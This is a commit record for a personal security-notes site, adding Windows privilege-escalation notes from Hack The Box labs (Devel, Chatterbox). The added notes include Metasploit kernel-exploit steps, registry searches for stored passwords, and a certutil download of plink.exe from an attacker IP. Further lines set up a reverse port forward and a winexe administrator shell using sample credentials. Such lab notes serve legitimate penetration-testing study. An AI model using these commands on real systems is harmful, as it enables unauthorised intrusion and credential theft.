

Before and after one commit to parity0x1/parity0x1.github.io, a Jekyll site: the page built from _notes/win-privesc.md, in a window 1280 px wide and 1400 px high, scrolled down 1106 px. Shown: the whole window, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 1703 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Added some more notes

````diff
--- a/_notes/win-privesc.md
+++ b/_notes/win-privesc.md
@@ -95,3 +95,59 @@
 - https://recipeforroot.com/advanced-powerup-ps1-usage/
 - https://www.harmj0y.net/blog/powershell/powerup-a-usage-guide/
 - https://www.hackingarticles.in/window-privilege-escalation-automated-script/
+
+#### Kernel Exploits
+
+Hack The Box: Devel
+
+```
+meterpreter > background
+> use post/multi/recon/local_exploit_suggester
+> set session 1
+> run
+
+[+] 0.0.0.0 - use exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated
+
+> use exploit/windows/local/ms10_015_kitrap0d
+> set session 1
+> set lhost tun0
+> set lport 4445
+> run
+```
+
+#### Passwords & Port Forwarding
+
+https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html
+
+Hack The Box: Chatterbox
+
+```
+> whoami
+> net users
+> net user <user>
+
+> reg query HKLM /f password /t REG_SZ /s
+> reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
+
+DefaultUserName    REG_SZ    <user>
+AutoAdminLogon     REG_SZ    1
+DefaultPassword    REG_SZ    *******
+```
+
+```
+> sudo vim /etc/ssh/sshd_config
+# Change PermitRootLogin prohibit-password to PermitRootLogin yes
+
+> service ssh restart
+> service ssh start
+```
+
+```
+> netstat -ano
+TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
+
+# Download plink.exe (https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html)
+>> certutil -urlcache -f http://10.10.14.51:8000/plink.exe plink.exe
+>> plink.exe -l root -pw toor -R 445:127.0.0.1:445 10.10.14.51 -v
+>>> winexe -U Administrator%Welcome1 //127.0.0.1 "cmd.exe"
+```
````
Also changed, not shown: other parts of _notes/win-privesc.md (+3 -3 lines), _notes/csrf.md (added, +27 -0 lines), _notes/idor.md (added, +28 -0 lines), _notes/jwt.md (renamed from _notes/bypassing-jwt.md, +1 -1 lines), _notes/lfi.md (added, +29 -0 lines), _notes/xss.md (+12 -1 lines).
